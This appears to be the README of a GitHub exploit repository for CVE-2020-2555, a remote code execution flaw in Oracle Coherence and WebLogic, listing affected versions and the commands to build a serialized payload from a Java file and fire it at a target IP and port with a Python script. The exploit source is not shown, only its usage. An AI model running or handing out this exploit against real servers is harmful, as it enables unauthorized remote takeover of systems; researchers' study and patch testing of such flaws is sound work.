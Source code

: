 # CVE-2020-2555 Oracle Coherence&WebLogic RCE

影响版本：  
- Oracle Coherence 3.7.1.17
- Oracle Coherence 12.1.3.0.0
- Oracle Coherence 12.2.1.3.0
- Oracle Coherence 12.2.1.4.0

exp:
```
test.ser 由./supeream/CVE_2020_2555.java编译生成  
python CVE-2020-2555.py ip port test.ser 
```

[@wsfengfan](https://github.com/wsfengfan/CVE-2020-2555)
